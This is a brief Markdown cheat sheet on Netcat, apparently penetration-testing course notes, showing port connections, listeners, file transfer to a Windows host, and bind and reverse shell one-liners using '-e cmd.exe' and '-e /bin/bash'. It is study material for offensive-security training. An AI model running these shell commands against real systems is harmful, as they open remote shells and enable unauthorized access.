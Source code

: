 # Netcat

* connect to port
  ```
  # nc -nv 10.0.05 110
  ```

* listen on port
  ```
  # nc -nlvp 4444
  listening on [any] 4444 ...
  ```

* transfer files

  ```
  # nc -nlvp 4444 > incoming.exe
  listening on [any] 4444 ...
  ```

  ```
  # locate wget.exe
  # nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe
  (UNKNOWN) [10.0.0.22] 4444 (?) open
  ```

* netcat bind shell
  ```
  C:\Users\offsec>nc -nlvp 4444 -e cmd.exe
  listening on [any] 4444 ...
  ```

  ```
  root@kali:~# nc 10.0.0.5 4444
  ```

* Reverse shell
  ```
  C:\Users\offsec>nc -nlvp 4444
  listening on [any] 4444 ...
  ```

  ```
  root@kali:~# nc -nv 10.0.0.22 4444 -e /bin/bash
  (UNKNOWN) [10.0.0.22] 4444 (?) open
  ```
